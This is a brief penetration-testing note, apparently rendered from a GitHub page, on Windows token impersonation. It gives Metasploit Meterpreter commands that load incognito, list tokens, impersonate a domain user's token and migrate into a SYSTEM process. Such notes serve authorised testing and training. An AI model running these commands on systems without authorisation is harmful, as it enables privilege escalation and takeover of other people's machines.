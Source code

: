 # Token Impersonation:
- Can be done using the following commands whilst having a meterpreter session:
```bash
# In Metasploit Meterpreter:
use incognito
list_tokens -g
impersonate_token DOMAIN\\USER
# Since the token might give you admin, you won't be able to drop into a shell directly, for that, we need to migrate to SYSTEM Process.
migrate <PROCESS ID>
```